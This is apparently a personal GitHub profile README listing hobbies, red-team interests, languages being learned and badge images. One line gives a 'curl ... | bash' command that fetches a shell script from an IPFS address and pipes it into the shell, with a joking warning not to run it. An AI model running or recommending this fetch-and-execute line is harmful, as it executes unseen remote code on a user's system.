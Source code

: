 ##  👋🏽 What's good

💻 Playing on the internet  
🧠 Working on myself (and my dotfiles)  
🎯 Ex-CCDC, still automating red team chaos  
⌨️ Clicky collector (Zelios supremacy)  
🛠️ Currently learing Golang + Rust  
🎀 Open source over everything  
🍥 `curl -s https://ipfs.io/ipfs/bafybeifm63mimspod5szffev2nhja4eumcb3dpsmyehrxcyxu72zqvqjne/index.sh | bash`  *(👀 maybe don’t run that)*

---

[![Holopin board](https://holopin.io/api/user/board?user=mztriz)](https://holopin.io/@mztriz)

---
[![Ava's GH Activity Graph](https://github-readme-activity-graph.vercel.app/graph?username=asbarron&theme=cotton-candy&area=true&hide_border=true)](https://github.com/asbarron/github-readme-activity-graph)

